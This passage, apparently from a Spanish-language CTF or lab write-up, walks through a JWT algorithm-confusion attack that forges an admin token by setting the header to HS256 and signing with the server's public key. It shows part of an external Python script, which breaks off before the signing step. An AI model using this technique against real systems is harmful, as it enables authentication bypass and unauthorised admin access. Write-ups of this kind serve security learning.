 <img src="img/17.png" alt="17" style="zoom:50%;" />

Para el ataque vamos a utilizar el siguiente script https://raw.githubusercontent.com/farah-hawa/Jwt-code/master/jwt.py. Esto nos permitirá genera un token para acceder como admin

Procedemos a capturar la petición y enviar al decoder el header para modificar el valor el algoritmo y añadirlo en el script, ya el script cuenta con los parámetros necesarios para generar la firma, solamente debemos crear un archivo public.pem

```python
import hmac
import hashlib
import base64

#Paste the file with the key
file=open('public.pem')

key = file.read()

#Paste your header and payload here
header = '{"alg":"HS256"}'
payload = '{"name":"admin"}'

#Creating encoded header
encodedHBytes = base64.urlsafe_b64encode(header.encode("utf-8"))
encodedHeader = str(encodedHBytes, "utf-8").rstrip("=")

#Creating encoded payload
encodedPBytes = base64.urlsafe_b64encode(payload.encode("utf-8"))
encodedPayload = str(encodedPBytes, "utf-8").rstrip("=")

#Concatenating header and payload
token = (encodedHeader + "." + encodedPayload)

#Creating signature
```